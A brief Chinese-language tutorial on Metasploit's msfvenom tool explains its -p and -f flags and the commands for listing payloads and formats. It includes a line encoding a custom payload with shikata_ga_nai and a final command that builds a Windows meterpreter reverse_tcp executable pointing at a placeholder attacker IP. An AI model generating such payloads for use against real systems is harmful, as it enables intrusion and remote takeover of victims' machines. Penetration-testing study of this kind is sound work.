

# msf-msfvenom
Msfvenom 是有效负载生成和编码的组合。它于 2015 年 6 月 8 日取代了 msfpayload 和 msfencode。

要生成有效负载，您必须提供两个标志（-p 和 -f）：

-p 标志：指定要生成的有效负载

要查看 Framework 提供哪些有效负载，您可以执行以下操作： ./msfvenom -l payloads

-p 标志还支持“-”作为接受自定义负载的方式： cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw

-f 标志： 指定有效负载的格式 ./msfvenom -p windows/meterpreter/bind_tcp -f exe

要查看支持哪些格式，您可以执行以下操作来了解： ./msfvenom --help-formats

msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
71